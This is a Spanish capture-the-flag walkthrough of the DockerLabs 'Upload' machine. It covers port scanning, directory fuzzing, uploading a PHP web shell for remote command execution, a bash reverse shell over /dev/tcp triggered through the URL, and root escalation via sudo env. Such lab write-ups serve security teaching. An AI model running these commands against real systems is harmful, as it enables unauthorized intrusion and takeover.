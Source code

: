 # [Upload](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh upload.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2`<br>
`-c 1` ⮞ solo lo repite una vez
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dcfa4972-3c0f-4869-a4e9-c3f61e9f0a32)
<br>

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk) <br>
<br>

Podemos ver los resultados en el archivo grepeable haciendo `cat allPorts`, observamos tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/50b99ded-2fda-421a-aa36-022f3ee61bbf)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con un panel el cual nos permite subir un archivo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/e1845ad2-b086-49ea-97c4-8c59c27221e2)

<br>

Lo que debemos hacer ahora es ver si existe el directorio donde se estarían subiendo los archivos. Para ello haremos un fuzzing gracias a gobuster con el siguiente comando: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html` y nos reportará lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/bef54253-3e1a-4c14-8ad5-78ed616d8169)

<br>

Listo, hemos encontrado el directorio `/uploads` en el cual se estarían subiendo los archivos a través del panel de `Upload File`. Por lo que podríamos hacer ahora es ver si podemos subir un archivo `cmd.php` el cual nos permita la Remote Code Execution (RCE), el contenido del archivo sería el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/e3bb76bd-783b-4aee-ae92-0d3e57220036)

<br>

Probamos a subir el archivo `cmd.php`, y nos dice lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/3362fa1e-967c-40b9-9158-1dcf97456867)

<br>

Por lo cual habríamos logrado la Ejecución Remota de Comandos, nos dirigimos al directorio `/uploads` y observamos que se ha subido el archivo `cmd.php`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/9617187a-0a47-4504-a647-45f4bb053150)

<br>

Y ahora pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/12059ea4-596f-44ce-a2e9-f9925a576091)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `http://172.17.0.2/uploads/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/de8139bf-761a-4e44-9793-702d6adc7725)

<br>
<br>

## Escalada de Privilegios

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data** para comprobarlo hacemos `whoami`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/8cff1944-b7af-49b1-bab7-a72271f84825)

<br>

Si ejecutamos `sudo -l` podemos ver que no podemos correr `/usr/bin/env` como `root` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/07208f3b-6bda-4f5e-a1b5-a1d02b3fe87c)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en env, y nos encontramos con lo siguiente `sudo env /bin/sh'`.
<br>

A continuación probaremos a ejecutar dicho comando adaptándolo que sería `sudo -u root /usr/bin/env /bin/bash`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/89e33e11-4355-4083-aecd-b20aa85bd135)
<br>

Y listo ya seríamos root!!
